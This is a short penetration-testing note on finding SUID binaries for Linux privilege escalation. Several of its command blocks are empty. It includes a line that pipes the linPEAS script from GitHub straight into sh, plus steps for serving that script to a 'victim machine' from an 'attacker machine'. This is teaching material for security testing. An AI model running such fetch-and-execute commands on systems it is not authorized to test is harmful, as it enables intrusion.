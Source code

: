 # SUID Abuse

## Finding Vulnerable Binaries

### Option 1: Find Command

The find command can show files owned by root that have the SUID bit set. Redirect errors to /dev/null since there will be a lot of permissions errors.

```text

```

### Option 2: Privilege Escalation Awesome Scripts \(PEASS\)

PEASS makes it easily to check for a wide range of privesc conditions. If the target machine cannot download it directly from github, serve it from a web server on your attacker machine.

{% tabs %}
{% tab title="Github" %}
```bash
# download  from Github and execute immediately
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```
{% endtab %}

{% tab title="Python 2" %}
```bash
# On the attacking machine
python -m SimpleHTTPServer 80


# On the victim machine

```
{% endtab %}

{% tab title="Python 3" %}
```
# On the attacking machine
python -m http.server 80
```
{% endtab %}
{% endtabs %}

